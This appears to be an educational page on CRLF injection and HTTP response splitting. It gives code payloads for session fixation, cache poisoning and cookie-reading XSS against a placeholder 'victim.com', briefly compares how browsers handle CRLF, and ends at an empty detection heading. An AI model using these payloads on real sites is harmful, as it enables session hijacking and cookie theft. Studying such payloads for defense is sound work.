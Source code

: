 ## Attack Scenarios

### Session Fixation

```python
# Attack payload
payload = "https://legitimate-site.com\r\nSet-Cookie: session=ATTACKER_CONTROLLED"

# Request
requests.get(f"https://victim.com/redirect?url={urllib.parse.quote(payload)}")
```

### Cache Poisoning

```http
GET /api/endpoint?param=value%0D%0AContent-Length:%200%0D%0A%0D%0AHTTP/1.1%20200%20OK%0D%0AContent-Type:%20text/html%0D%0A%0D%0A<script>alert('XSS')</script> HTTP/1.1
Host: victim.com
```

### XSS via Response Splitting

```javascript
// Malicious payload
let payload = `\r\nContent-Type: text/html\r\n\r\n<script>alert(document.cookie)</script>`;
let encodedPayload = encodeURIComponent(payload);

// Attack URL
window.location = `https://victim.com/page?param=${encodedPayload}`;
```

## Browser Behavior Differences

### Chrome/Edge (Chromium)

- Strict CRLF handling
- Rejects most header injection attempts
- Normalizes some CRLF sequences

### Firefox

- More permissive CRLF handling
- May allow some injection scenarios
- Different encoding behavior

### Safari

- Unique CRLF processing
- May handle encoded CRLF differently
- ITP affects cookie behavior

## Detection Techniques

